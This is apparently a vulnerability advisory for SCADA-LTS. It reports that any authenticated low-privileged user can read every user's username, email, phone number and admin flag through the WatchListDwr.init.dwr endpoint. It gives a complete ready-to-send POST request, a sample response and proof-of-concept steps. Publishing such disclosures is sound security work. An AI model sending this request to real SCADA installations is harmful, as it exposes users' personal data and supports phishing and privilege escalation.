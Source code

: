 # Sensitive User Information Disclosure via `WatchListDwr.init.dwr` Endpoint

### Summary

A vulnerability was identified in the `WatchListDwr.init.dwr` endpoint of SCADA-LTS that allows any authenticated user, even with minimal permissions, to access sensitive user information including usernames, emails, phone numbers, and admin status. This flaw constitutes an **Information Disclosure** issue and could be used to facilitate further attacks such as phishing, privilege escalation, or social engineering.

### Details

- **Vulnerable Endpoint:** `POST /Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr`  
- **Authentication Required:** Yes (low-privileged user)  
- **Affected Parameter:** N/A (static DWR call)  
- **Impact Type:** Information Disclosure

By issuing a crafted POST request to the vulnerable endpoint, a low-privileged user is able to retrieve detailed information of all users in the system. The backend responds with a full JavaScript object containing data such as usernames, emails, admin flags, and phone numbers.

#### Sample Request:
````
POST /Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr HTTP/1.1
Host: kubernetes.docker.internal:8080
Content-Type: text/plain

callCount=1
page=/Scada-LTS/watch_list.shtm
httpSessionId=
scriptSessionId=XYZ123456789
c0-scriptName=WatchListDwr
c0-methodName=init
c0-id=0
batchId=1
````

#### Sample Response Snippet:

````
javascript
s7.admin=true;
s7.email="admin@yourMangoDomain.com";
s7.username="admin";

s8.admin=false;
s8.email="anonymous@mail.com";
s8.username="anonymous";

s11.admin=false;
s11.email="user1@x.com";
s11.phone="13212313131";
s11.username="user1";

````

### Proof of Concept (PoC)

1. Authenticate as any valid low-privileged user.
2. Send the above POST request to `/Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr`.
3. Observe the server response containing sensitive information of all users in the SCADA system.

### Impact
- Privacy Violation: Emails, phone numbers, and usernames of all users, including administrators, are exposed.

- Privilege Escalation Support: Knowledge of admin usernames and roles could be leveraged in further attacks.

- Phishing and Social Engineering: Exposed contact information can be used to craft highly targeted attacks.

- Reconnaissance: Attackers can map the user structure of the SCADA-LTS system for further exploitation.

# References

[SCADA-LTS – Official Repository](https://github.com/SCADA-LTS/Scada-LTS)

# Discoverer

[Natan Maia Morette](https://nmmorette.github.io) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)

